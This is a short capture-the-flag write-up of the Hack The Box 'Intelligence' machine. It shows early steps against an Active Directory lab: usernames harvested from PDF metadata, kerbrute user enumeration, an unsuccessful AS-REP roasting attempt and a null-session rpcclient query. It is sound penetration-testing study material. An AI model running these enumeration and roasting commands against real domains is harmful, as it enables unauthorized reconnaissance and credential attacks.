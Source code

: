 ## Info

### System
- hostname: `intelligence.htb`, `intelligence.htb0`

### PDF
- William.Lee
- Jose.Williams


## Path
### User
1. Found 2 PDF at `/documents`. After finding `2020-01-02-upload.pdf` existed, I wrote `pdf-list.py` to get all PDF.
2. Extract the possible usernames from PDF.
```
$ for f in $(find . -name '*.pdf' | sort ); do pdf-parser $f | grep Creator ; done > user.lst
$ vim user.lst   # do some modify
$ kerbrute_linux_amd64 userenum -d intelligence.htb --dc intelligence.htb ./valid-user.lst
$ vim  # remove domain
$ sort ./valid-user.lst | uniq > uniq-valid-user.lst
```
3. Did AS-REP roasting, found nothing.
```
$ cme ldap $ip -u ./uniq-valid-user.lst -p '' --asreproast asrep.out
LDAP        10.10.10.248    389    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
```
4. Logonned RPC and tried to query user info, but found nothing.
```
$ rpcclient -U '' $ip
$ queryuser William.Lee
...
```

